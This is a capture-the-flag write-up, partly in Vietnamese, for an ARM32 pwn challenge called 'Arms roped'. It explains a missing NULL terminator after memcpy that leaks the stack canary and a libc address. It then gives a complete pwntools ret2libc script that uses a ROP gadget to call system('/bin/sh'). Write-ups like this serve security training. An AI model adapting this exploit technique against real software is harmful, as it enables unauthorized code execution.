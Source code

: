 ```yaml
---
title: arm-writeup
date: 2025-02-11 00:00:00 +0800
categories: [pwn]
tags: [arm]
author: "kuvee"
layout: post
published: false
---
```


## Arms roped


- đây là 1 file arm32 bit 
```cs
ploi@PhuocLoiiiii:~/pwn/arm/Arms roped/pwn_arms_roped$ file arms_roped
arms_roped: ELF 32-bit LSB pie executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, BuildID[sha1]=f493269e618dc028ee6ff31eda42f938a63451bc, for GNU/Linux 3.2.0, not stripped
```

- string_storer: đây sẽ là hàm chính của bài , tiếp theo `_isoc99_scanf("%m[^\n]%n", &tmp, &n)` sẽ là đọc input vào `tmp` cho đến '\n' và lưu số byte đã nhập vào `n` , sau đó nó sẽ sao chép dữ liệu vào `dest` và ở đây nó sử dụng `memcpy` và hàm này sẽ không thêm byte NULL vào cuối -> có thể leak  

```c
int string_storer()
{
  int result; // r0
  char dest[32]; // [sp+4h] [bp-30h] BYREF

  memset(dest, 0, sizeof(dest));
  while ( 1 )
  {
    _isoc99_scanf("%m[^\n]%n", &tmp, &n);
    getchar();
    memcpy(dest, (const void *)tmp, n);
    free((void *)tmp);
    result = memcmp(dest, "quit", 4u);
    if ( !result )
      break;
    puts(dest);
  }
  return result;
}
```

- trước hết thì ta cần patch nó với libc , dùng `pwninit` bị lỗi nên ta sẽ build docker và lấy ld trong `/usr/arm-linux-gnueabihf/lib`

- để run được 1 file arm thì ta làm như sau: 

tab1 : `qemu-arm -L /usr/arm-linux-gnueabihf -g 1234 ./hello32-static`

tab2: 


```
gdb-multiarch
set architecture arm
target remote :1234
``` 

- còn debug trong gdb thì thêm thế này :

```cs
p = process(['qemu-arm','g','1234', '-L', '/usr/arm-linux-gnueabihf', './arms_roped_patched'])
```

### EXPLOIT

- okay mọi setup đã xong , bây giờ sẽ đến phần exploit , như đã nói ở phần trước , vì đang ở trong 1 loop nên ta có thể leak mọi thứ cho việc khai thác , trước hết ta sẽ debug xem ta cần padding bao nhiêu byte để có thể leak , ở bài này ta sẽ leak canary và libc thôi  , không cần luôn exe_address vì gadget của libc là quá nhiều để sử dụng ^^ 

- trước hết ta sẽ nhập 9 byte và xem `memcpy` thế nào 

ta có thể thấy `dest` sẽ là 0x407ff914   

![image](https://hackmd.io/_uploads/H1vq48-

- nhìn vào stack thì ta sẽ thấy 2 giá trị có thể leak

đầu tiên `0x121abc00` có lẽ là canary và `0x40846525` là địa chỉ libc_start_main , padding lần lượt sẽ là 0x21 và 0x48 , sở dĩ là 0x21 vì ta cần overwrite byte NULL mới có thể leak thành công  

![image](https://hackmd.io/_uploads/SJxR4Lb2Je.png)

- và bây giờ ta hoàn toàn có được `canary` 

![image](https://hackmd.io/_uploads/B14pIIWh1e.png)

![image](https://hackmd.io/_uploads/BJKkw8Znkx.png)

- sau khi leak xong thì đơn giản sẽ là 1 ret2libc , ở đây ta cần tìm kiếm gadget để cho chuỗi `/bin/sh` vào r0 , r0 sẽ chứa tham số đầu tiên khi gọi system , và ta cũng cần điều khiển `pc` thành system 

![image](https://hackmd.io/_uploads/HJKU1DbhJx.png)

exp: 


```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./arms_roped_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe
context.arch = 'arm'
context.log_level = 'debug'
#file arms_roped_patched
#set architecture arm
#target remote :1234
#b*string_storer+172
#b*string_storer+240
#c
p = process(['qemu-arm', '-g' ,'1234' ,'./arms_roped_patched'])
#p = process(['qemu-arm','g','1234', '-L', '/usr/arm-linux-gnueabihf', './arms_roped_patched'])

payload_canary = b'a'*0x21
input()
p.sendline(payload_canary)

p.recvuntil(payload_canary)

canary = u32(b'\x00' + p.recv(3))
log.info(f'canary: {hex(canary)}')

payload_libc = b'a'*0x48
p.sendline(payload_libc)
p.recvuntil(payload_libc)

libc.address = u32(p.recv(4)) - 0x17525
log.info(f'libc: {hex(libc.address)}')

# 0x0006ed9a (0x0006ed9b): pop {r0, r1, pc};
# 0x0005bebc : pop {r0, r4, pc}
pop = libc.address + 0x0005bebc


payload_get_shell = b'quit'
payload_get_shell = payload_get_shell.ljust(32,b'l')
payload_get_shell += p32(canary)
payload_get_shell = payload_get_shell.ljust(0x30,b'o')

payload_get_shell += p32(pop)
payload_get_shell += p32(next(libc.search(b'/bin/sh\x00')))
payload_get_shell += p32(0)
payload_get_shell += p32(libc.sym.system)
input()
p.sendline(payload_get_shell)


p.interactive()
```


